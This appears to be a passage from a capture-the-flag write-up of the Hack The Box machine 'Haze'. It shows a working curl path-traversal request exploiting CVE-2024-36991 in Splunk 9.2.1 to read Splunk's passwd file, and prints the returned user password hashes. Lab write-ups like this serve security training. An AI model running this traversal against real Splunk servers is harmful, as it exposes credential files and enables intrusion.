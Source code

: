 ![](/assets/posts/Haze/Haze.png)
we can find splunk running 

# Exploitation

## CVE-2024-36991

if we go to https://haze.htb:8089 which is a service port related to splunk as well we could leak the version which is 9.2.1, this version  is vulnerable to CVE-2024-36991 it allows an attacker to read files on disk

Poc
```bash
➜  CVE-2024-36991 git:(main) ✗ curl  "http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/passwd"
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```
tried to crack all of the password but that didn't work let's try and read some of splunks configuration files like 
